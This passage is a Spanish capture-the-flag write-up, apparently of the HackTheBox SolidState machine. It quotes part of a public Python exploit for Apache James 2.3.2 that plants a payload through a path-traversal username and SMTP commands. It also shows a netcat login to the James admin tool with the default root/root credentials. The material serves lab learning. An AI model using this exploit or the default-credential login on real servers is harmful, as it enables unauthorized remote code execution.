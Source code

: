 si buscamos con searchsploit tenemos un script en python donde nos automatiza la intrusión creando el usuario 

![](/assets/img/commons/SolidState/exploit.png)


```python
s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
s.recv(1024)
s.send("quit\n")
s.close()
print "[+]Connecting to James SMTP server..."
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((ip,25))
s.send("ehlo team@team.pl\r\n")
recv(s)
print "[+]Sending payload..."
s.send("mail from: <'@team.pl>\r\n")
recv(s)
# also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
recv(s)
```
vemos que crea el usuario antes mencionado para tener un RCE aprovechandose en esta vulnerabilidad de la creación de directorios que emplea al añadir un usuario, pero hay un problema. tiene que estar logueada y activa una persona para que active el RCE del usuario creado, asi que si lo ejecutamos no tendriamos éxito. Sin embargo en la parte superior del script vemos unas credenciales por defecto para logearnos a este servicio 

```python
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'
```
asi que intentare conectarme por netcat a ese puerto y efectivamente nos pide unas credenciales, solo ponemos las que nos vienen por defecto y estamos dentro

```console
$ nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
```